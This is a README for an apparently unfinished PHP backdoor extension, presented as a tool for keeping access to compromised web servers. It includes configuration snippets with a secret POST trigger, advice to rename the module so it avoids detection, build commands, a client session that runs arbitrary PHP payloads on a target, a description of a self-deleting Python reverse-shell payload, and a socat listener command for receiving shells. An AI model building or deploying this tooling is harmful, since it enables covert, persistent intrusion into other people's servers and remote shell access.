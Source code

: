 ## Note: Unfinished pre-release.

# PHP Backdoor Module

This is an example module for adding a backdoor to the PHP installation on a webserver by adding a PHP module. Very useful for mantaining access to a compromised host.

#Build Instructions

First off, you are going to want to edit the "magic string" (or rather, variable), and method. I have set them to POST, because GET variables get logged. You might want to edit some other things so it doesn't show up as "backdoor".

## Linux
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "execute"; // magic string
```

## Windows
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "secret_string"; // magic string
```

And next, we compile. For windows, I link to the articles (original in Russian, mine in English which is basically a translation I did).

##Windows:
[Original Russian Article][russian]

[English 'translation'][english]

##Linux:
`sudo apt-get install php5-dev`  
`phpize && ./configure && make`

# Use Instructions
In client/ I provide an example Python client which allows executing any arbritary PHP payload on the webserver. I also provide some example payloads in client/payloads/ that you may find useful. 

To use the client, you simply do the following.
```
root@unsanitized:~/dev/php-extension-backdoor/client# ./php_module_client.py http://192.168.1.7 secret_squirrels payloads/getuid.php
Starting execution...
uid: 33
Done!
root@unsanitized:~/dev/php-extension-backdoor/client#
```

Planned payloads include a variety of information gathering payloads, some reverse shells, and other useful utilities that I come up with. I will release those as they prove to be stable/useable soon.

# Payloads
## info.php
Prints UID, GID, and the uname -a of the server.

## back_python.php
Self destructing python backconnect. Sends a PTY home, and deletes itself once done. Work in progress, gotta find a way to pass arguments to the modules.

I recommend using Socat to accept PTY shells like so:
```
$ socat -,echo=0,raw tcp4-listen:PORT
```
![PTY Backconnect](http://0x27.me/images/phpextbackdoor-pythonpty.png)

# Credits
Original Russian author, and [akamajoris][akamajoris]. All I did was some translation and writing payloads and client because I found them useful. 

[russian]: http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/
[english]: http://example.com/
[akamajoris]: https://github.com/akamajoris
